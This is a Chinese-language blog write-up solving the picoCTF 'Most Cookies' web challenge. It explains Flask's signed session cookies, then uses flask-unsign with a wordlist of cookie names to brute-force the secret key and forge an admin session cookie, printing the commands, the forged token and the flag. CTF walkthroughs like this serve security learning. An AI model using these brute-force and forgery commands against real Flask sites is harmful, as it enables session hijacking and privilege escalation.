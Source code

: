 ```yaml
---
icon: pen-to-square
date: 2024-12-20
tags: 
title: Most Cookies
category:
  - 项目
---
```

# Most cookies
Author: madStacks
#### Description
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py) [http://mercury.picoctf.net:65344/](http://mercury.picoctf.net:65344/)

#### Hints 
How secure is a flask cookie?

----
# 前言
## Flask
flask是Python编写的轻量级web应用框架
### Flask会话管理机制
flask框架下的cookie是这样的结构
```
eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.Z2Uskg.uziKYJ0zcZE4j4toa_S8dqE_auA
```
但是不重要，base64解码后可以看到我们的信息
```
{"very_auth":"blank"}ge,3&	S7x6qZj`
```
### 通过查资料发现
flask框架加密cookie用的是签名机制而非加密机制
这意味着，我们可以查看cookie的序列化内容，只是不能随意更改，因为在服务端
在flask框架中进行签名
通过研究，flask在服务端设置签名密钥是这个逻辑：
需要设置一个secret_key，用于加密和解密cookie的会话数据
示例：
```
from flask import Flask

app = Flask(__name__)
app.secret_key = 'your_secret_key'  # 设置密钥
```
现在我们有思路了，我们只需要从python源代码获取secret，然后自己构造cookie就可以进行越权操作
## flask-unsign
[Flask-Unsign](https://github.com/Paradoxis/Flask-Unsign)是一个专门用于爆破Flask框架加密cookie的工具，我们可以通过这个来爆出密码（一般需要提供字典），构造cookie。

# 解题过程
## 代码审计
首先对server.py文件进行代码审计，主要是secret_key的定义部分
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220173823.png)
发现了逻辑是从这些明文里进行随机选择作为密钥（实际上经过测试发现，其实并不随机后面再说）
## cookie构造
随后安装flask-unsign工具，
创建一个cookie.txt来存放密钥，内容为python代码中的cookie_name
```
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia
```

### 构造命令：
```
 flask-unsign -u --server http://mercury.picoctf.net:65344/ --wordlist cookie.txt
```
- -u：用爆破签名秘钥
- --server：指定提供cookie的服务器，也就是flask服务器
- --wordlist：指定字典
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220174905.png)
发现密钥为fortun(无论重复多少次，密钥都为fortun,不知道是不是我的原因)

### 构造cookie
```
flask-unsign --sign --cookie "{'very_auth':'admin'}" --secret 'fortune'
```
- --sign:构造cookie的指令，使用时需要指定secret
- --cookie：构造的有效载荷upload明文
- --secret：签名密钥
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220175603.png)
```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z2U-0A.6uixHBNxbx7P6ZHeo-_dGFZjhd0
```

随后在网站的cookie进行更改，刷新后可得到flag
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20241220175742.png)
*在这步尝试过使用其他密钥，但是都不能得到flag，真的很奇怪*

```
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```
